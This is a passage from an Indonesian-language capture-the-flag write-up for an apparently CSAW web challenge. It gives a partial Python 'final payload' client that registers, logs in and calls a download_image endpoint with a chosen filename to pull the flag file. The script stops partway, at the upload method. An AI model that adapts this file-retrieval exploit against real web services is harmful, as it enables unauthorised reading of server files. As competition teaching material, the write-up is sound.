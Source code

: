 - terakhir kita tinggal download saja flagnya menggunakan fungsi download_image(), contoh:

```python
a.download_image(file=f"{flag_txt}") # ganti {flag_txt} dengan nama file yang tadi kita kirimkan di awal.
```

final payload:

```python
import requests
import json

URL = "http://web.chal.csaw.io:5012"


class API:
    def __init__(self, url=URL):
        self.requests = requests.Session()
        self.url = url

    def login(self, username, password):
        r = self.requests
        url = self.url
        req = r.post(
            f'{url}/api/login',
            json={
                'username': username,
                'password': password,
            }
        )
        return req.text

    def register(self, username, password):
        r = self.requests
        url = self.url
        req = r.post(
            f'{url}/api/register',
            json={
                'username': username,
                'password': password,
            }
        )
        return req.text

    def gallery(self):
        r = self.requests
        url = self.url
        req = r.get(
            f'{url}/api/gallery',
        )
        return req.text

    def download_image(self, file):
        r = self.requests
        url = self.url
        req = r.get(
            f'{url}/api/download_image',
            params={
                'file': file,
            }
        )
        return req.text

    def upload(self, file, filename):
```